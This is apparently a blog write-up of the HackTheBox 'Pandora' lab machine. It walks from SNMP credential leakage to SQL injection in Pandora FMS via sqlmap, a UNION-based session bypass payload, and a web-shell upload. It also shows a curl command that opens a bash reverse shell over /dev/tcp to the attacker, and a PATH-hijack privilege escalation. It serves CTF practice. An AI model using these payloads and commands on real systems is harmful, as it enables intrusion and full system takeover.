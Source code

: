```yaml
---

title: HTB [PANDORA] [LINUX]

date: 2022-01-10 18:23:05 +0200

categories: [htb]

tags: [HACKTHEBOX MACHINES]

excerpt: Write up for the machine "Pandora" from HackTheBox
---
```



![](https://jopraveen.files.wordpress.com/2022/01/8cjsjbq.png?w=472)

## **NMAP:**

```css
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-   Nothing interesting in website
-   There’s only one contact form, and there’s no vulnerability.

## **FUZZING:**

```css
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/server-status (Status: 403)
/index.html (Status: 200)
/assets (Status: 301)
/server-status (Status: 403)
```

-   Can’t access these pages

```css
d70.pandora.htb
s4232ipmi.pandora.htb
incarose.pandora.htb
web1211.pandora.htb
erol.pandora.htb
```

-   I got a couple of sub domains in subdomain fuzzing, but all of them are false positives.
-   After spending a few minutes, I decided to scan the UDP ports.
-   Found an SNMP port.

```css
 nmap -sU 10.10.11.136 -p 161
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-09 01:16 +05
Nmap scan report for pandora.htb (10.10.11.136)
Host is up (0.18s latency).

PORT    STATE SERVICE
161/udp open  snmp
```

-   let’s scan this deeper

## SSH CREDS:

-   We can get these credentials in two ways
-   One by enumerating it with the snmpwalk tool.
-   Another one is just running nmap script scan.

```bash
nmap -sU -sC -sV 10.10.11.136 -p 161
```

-   This scan took 749.78 seconds

![](https://jopraveen.files.wordpress.com/2022/01/image-8.png?w=1024)

-   Here under snmp-process, we can see the username and password.

-   Another method of seeing our snmp output `cat snmp.out| grep -i string`

![](https://jopraveen.files.wordpress.com/2022/01/image-9.png?w=1024)

-   use these credentials to ssh in

[![](https://i.imgur.com/K0doEwI.png)]

-   We need to privesc to matt

## WEB SERVER

[![](https://i.imgur.com/XTCzDNy.png)](https://i.imgur.com/XTCzDNy.png)

-   There’s a web-server running locally

[![](https://i.imgur.com/0VbgMN7.png)](https://i.imgur.com/0VbgMN7.png)

-   By curling it, We can get a path “/pandora_console/”
-   And it’s running in Apache 2.4.1

[![](https://i.imgur.com/1wpGvVO.png)](https://i.imgur.com/1wpGvVO.png)

-   proccess running by matt ^
-   Let’s try to forward local port 80 along with our machine to exploit it.

[![](https://i.imgur.com/vO0xei5.png)](https://i.imgur.com/vO0xei5.png)

-   You can use socat to port forwarding.

## PANDORA FMS:

[![](https://i.imgur.com/RqxxgrK.png)](https://i.imgur.com/RqxxgrK.png)

-   Quickly googled about it
-   and got **[this nice blog](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)**
-   We must first exploit that SQLi in the session_id parameter.

![](https://jopraveen.files.wordpress.com/2022/01/unknown.png?w=811)

-   dump databases

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST --dbs --batch
```

![](https://i.imgur.com/mmmORUi.png)

-   dump tables

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST -D pandora -tables --batch
```

-   got some hashses, But can’t crack it
-   so let’s go for sessions

![](https://i.imgur.com/YQ9sMB2.png)

```
sqlmap -u http://10.10.11.136:1337/pandora_console/include/chart_generator.php --data="session_id=test" -method POST -D pandora -T tsessions_php --dump --batch
```

![](https://i.imgur.com/1uPONzh.png)

-   got admin session_id in tsessions_php
-   If you cannot obtain the session ID, you can simply use sql payload to sign in.

```bash
10.10.11.136:1337/pandora_console/include/chart_generator.php?session_id=hello' UNION ALL SELECT 'XXXX',1337,'id_usuario|s:5:"admin";';-- -
```

## RCE:

-   **[This blog](https://k4m1ll0.com/cve-2020-8500.html)** covers everything in detail.

![](https://jopraveen.files.wordpress.com/2022/01/image-11.png?w=384)

-   Now go to **[http://10.10.11.136:1337/pandora_console/index.php?sec=godmode/extensions&sec2=extensions/extension_uploader](http://10.10.11.136:1337/pandora_console/index.php?sec=godmode/extensions&sec2=extensions/extension_uploader)**
-   Then upload this zip
-   You can access this file in /extensions/shell.php

![](https://jopraveen.files.wordpress.com/2022/01/image-12.png?w=928)

-   Cool we can able to execute commands
-   Grab the user.txt real quick, time to root


![](https://i.imgur.com/gcLux48.png)

```
curl http://10.10.11.136:1337/pandora_console/extensions/shell.php\?cmd\="bash%20-c%20%27exec%20bash%20-i%20%26%3E%2Fdev%2Ftcp%2F10.10.14.118%2F1337%20%3C%261%27"
```

-   Grab a shell and upgrade it.

## ROOT:

![](https://i.imgur.com/4wJPLKG.png)

-   Find the suid binary
-   pandora_backup is not a regular binary
-   let’s download it
-   Time to do some reversing


![](https://i.imgur.com/R0zZqne.png)

-   Here in the main function the binary calls a system function.
-   It runs “tar” command, but not with full path
-   Now we can abbuse it with export PATH.. ezpzz

![](https://jopraveen.files.wordpress.com/2022/01/image-13.png?w=994)

```bash
echo "sudo chmod u+s /bin/bash" > tar
chmod +x tar
export PATH="$(pwd):/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
/usr/bin/pandora_backup
bash -p
```

- Root is very easy than user
- Thanks for reading my write-up, I hope you enjoyed it if you liked it, then give me respect in Hackthebox.

**[Click here](https://www.hackthebox.com/home/users/profile/190694)** to visit my HTB profile

